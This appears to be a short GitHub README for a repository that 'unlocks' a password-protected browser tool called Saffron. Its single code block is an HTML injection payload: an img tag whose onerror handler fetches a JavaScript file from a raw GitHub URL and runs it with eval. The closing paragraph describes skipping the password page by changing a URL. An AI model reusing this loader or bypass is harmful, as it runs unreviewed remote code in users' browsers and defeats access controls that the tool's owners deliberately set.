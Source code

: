 # Saffron
## A simple browser page that could be pasted on any html script code like Lego Wedo 2.0
# THIS REPOSITORY UNLOCKS SAFFRON SO THAT YOU DO NOT NEED THE PASSWORD!
```
<img src=# onerror='fetch("https://raw.githubusercontent.com/martial83-huue/Saffron-UNLOCKED/main/main.js").then(r=>r.text()).then(c=>eval(c)) '>
```


Credits: Blobby-Boi (Creator of Blobbypass), SaffronA1, MartialMeteor82, ChatGPT-4o, BlackBoxAI, Canva, and GitHub.

## Exploits the fact that there is no real encryption or protection of the index.html (Saffron's search dashboard) - main.html (password page) acts as just a doorway to index.html but **is easily skipped** by changing URL in main.js from main.html to index.html - results in easy cracking and poor encryption
